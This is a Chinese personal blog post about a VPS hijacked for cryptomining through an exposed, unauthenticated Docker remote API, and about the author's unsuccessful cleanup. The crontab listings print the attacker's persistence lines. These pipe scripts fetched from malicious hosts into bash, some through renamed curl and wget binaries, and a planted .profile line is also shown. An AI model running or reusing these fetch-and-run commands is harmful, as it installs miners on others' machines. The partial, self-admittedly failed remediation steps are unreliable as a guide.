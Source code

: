 # 前言

最近在办新生赛，一天晚上突然发现题目环境打不开了，进去一看发现cpu%100，瞅了一眼阿里云发现了各种警报，才知道是被挖矿了。一开始没太在意，因为是放了shell的题目，猜测可能是有新生拿我docker容器挖矿，直到今天早上起床后发现凌晨4点还在被攻击我才意识到应该不是新生。再上去瞅了一眼发现定时任务不是docker里的，是我vps主机上的，才意识到GGGGGGGGG了。



# 攻击方式

学长猜测可能是docker未授权这样的，然后发我了一张图片：

![img](记第一次被挖矿.assets/C06366B1B29449C2C44B304C073F5A98.jpg)



我仔细的查了一下，查到了这篇文章：

https://cloud.tencent.com/developer/article/1744943

考虑到之前弄ctfd的whale的插件的时候，弄过docker swarm，再加上昨天早上好像把1-30000端口全都给开了，所以猜测可能确实是这个个docker remote api未授权打进来的。

测试了一下：

![image-20211028092726174](记第一次被挖矿.assets/image-20211028092726174.png)

打通了，得。。。。确实是这个2375端口的问题。



# 修复

首先我先去宝塔和阿里云上面把端口给管了，10000以内的端口以后还是别乱开。

然后就是定时任务这里：

```shell
root@iZbp14tgce8absspjkxi3iZ:~# crontab -l
*/30 * * * * /usr/bin/cdz -fsSL http://crypto.htxreceive.top/s3f815/c/a.sh | bash > /dev/null 2>&1
You have new mail in /var/mail/root
root@iZbp14tgce8absspjkxi3iZ:~#

```

得先把这个定时任务给删掉，但是没删掉：

```shell
root@iZbp14tgce8absspjkxi3iZ:~# crontab -r
/var/spool/cron/: unlink: Permission denied
```

想去chattr改，发现包括chattr在内的很多命令都没了，安装但是似乎不管用，所以删除再装：

```shell
apt-get remove e2fsprogs
apt-get install e2fsprogs
root@iZbp14tgce8absspjkxi3iZ:/home/lsb/.ssh# chattr
Usage: chattr [-RVf] [-+=aAcCdDeijsStTu] [-v version] files...
```



接下来就是删定时任务了。查看`/etc/crontab`发现挖矿脚本：

```shell
root@iZbp14tgce8absspjkxi3iZ:/home/lsb/.ssh# cat /etc/crontab
* * * * * root curl http://199.19.226.117/b2f628/cronb.sh|bash
*/5 * * * * root (apk update;apk add wget curl;yum update ;yum remove wget curl;yum install -y wget curl;apt-get update;apt-get remvoe wget curl ;apt-get install wget curl;);(curl -fsSL http://crypto.htxreceive.top/s3f815/c/a.sh||cd1 -fsSL http://crypto.htxreceive.top/s3f815/c/a.sh|| cdz -fsSL http://crypto.htxreceive.top/s3f815/c/a.sh|| wget -q -O- http://crypto.htxreceive.top/s3f815/c/a.sh || wdz -q -O- http://crypto.htxreceive.top/s3f815/c/a.sh || wd1 -q -O- http://crypto.htxreceive.top/s3f815/c/a.sh )|bash

```

`/var/spool/cron/`下面也是一堆。

删还删不掉，那直接vim把里面的内容写为空，没权限就`chattr -iae xxxx`，然后再弄就可以了，就把定时任务杀掉了。









查看一下`docker ps -a`，发现多出来了这么两个docker容器：

```shell
CONTAINER ID        IMAGE                         COMMAND                  CREATED             STATUS                           PORTS                                            NAMES
0e33c16bfb21        docker72590/apache            "/bin/bash -c './ini…"   5 hours ago         Exited (137) About an hour ago                                                    naughty_bassi
fae36a1fbed5        docker72590/apache            "/bin/bash -c './ini…"   22 hours ago        Exited (137) About an hour ago                                                    distracted_galileo
```

给删掉。





查看一下`/etc/passwd`，发现多了这么个lsb用户：

```
lsb:x:1000:1000::/home/lsb:/bin/bash
```

把这用户给删除掉：

```shell
userdel -r lsb
```

把`authorized_keys`文件也给清一下。包括root和lsb的。如果没权限，处理方式同定时任务。



在lsb用户下面的`.profile`文件发现了恶意的东西：

```shell
root@iZbp14tgce8absspjkxi3iZ:/home/lsb# cat .profile
/var/tmp/.../.ddns.sh >/dev/null 2>&1
```



也都给删掉。



然后最后杀进程了，点top，排最上面的那几个，之前阿里云警报的时候也看到过，关键的就是httpd,crypto,ddns,pnscan这些，分别`find / -name *xxx*`找到文件，然后都给删掉，进程也都拿PID给杀掉。

然后重启服务器，发现进程还有，再找，再删，重复2遍基本上就删的差不多了（指的是top命令列出来的进程占用cpu都基本 不超过%1了）。查的时候还发现可能top命令会被改，也可以用`busybox top`来查看。



然后啊，啪的一下，很快啊，上面我修改过的所有东西全都复原了啊！！！命令又全都没有了啊！！！又开始挖矿了啊！好啊！行啊，我赶紧上了阿里云领了个旗舰版容器安全，全面杀毒修复，啪的一下就好了啊！



过了一段时间就又G了！怕了怕了，告辞。
